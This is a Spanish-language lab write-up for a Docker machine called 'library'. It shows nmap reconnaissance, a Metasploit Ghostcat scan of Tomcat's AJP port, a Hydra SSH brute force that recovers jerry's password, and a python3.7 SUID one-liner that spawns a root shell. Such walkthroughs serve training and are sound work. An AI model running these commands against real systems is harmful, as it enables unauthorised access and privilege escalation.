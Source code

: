 ```yaml
---
Maquina: library
SO: Linux
Explotación: Análisis de AJP
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - linux
  - escala_privs
  - ssh
  - web
  - apache_jserv
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sVC -Pn 172.17.0.2
```

![[Pasted image 20241106085442.png]]

Como vemos que tiene el puerto 8080 abierto vamos a realizar una exploración web un poco precoz, a ver que logramos ver.

![[Pasted image 20241106085610.png]]

Aparece un apache tomcat 9.0.30 así que vamos a analizar subdirectorios y revisar las vulnes que pueda tener esta versión.

Por ahora he pasado dirb, gobuster y analizado código fuente (página principal) y explorado a ver si tenía posibles vulnes y nada. Así que vamos a explorar otro puerto.

Vamos a probar con el puerto 8009 que pertenece al Apache JServ, para ello vamos a utilizar la consola de metasploit y el módulo auxiliary/scanner/http/tomcat_ghostcat, este puede confirmar si tenemos acceso de lectura o incluso ejecución de código.

Los comandos ejecutados serían algo así:

```bash
msfconsole #iniciamos la consola de metasploit
search tomcat_ghostcat #Buscamos el modulo
use X #sustituir x por el modulo que toque
show options #Mirar las opciones del modulo y configurarlas segun gustos
run
```

Y tenemos la siguiente resolución ->

![[Pasted image 20241106093122.png]]

Si nos fijamos en el comentario, vemos como le saluda a un tal jerry. Así que ya tenemos un usuario para intentar hacer fuerza bruta en el SSH

```bash
hydra -l jerry -P ~/wordlists/rockyou.txt ssh://172.17.0.2 -t 16 -s 5000
```

Y sorpresita ->

![[Pasted image 20241106093304.png]]

Ya tenemos el passwd de jerry -> chocolate.

![[Pasted image 20241106093357.png]]

Parece que funciona correctamente, ahora toca ver si podemos escalar privilegios ;)

Si probamos sudo -l nos dirá que no reconoce sudo... Pero podemos probar a ver que ficheros encontramos con el bit SUID y que pertenezcan a root ->

```bash
find / -perm -4000 -user root 2>/dev/null
```

![[Pasted image 20241106100242.png]]

y si probamos con python podemos ver lo siguiente ->

```bash
./python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![[Pasted image 20241106100302.png]]

Pasaremos a ser root ;)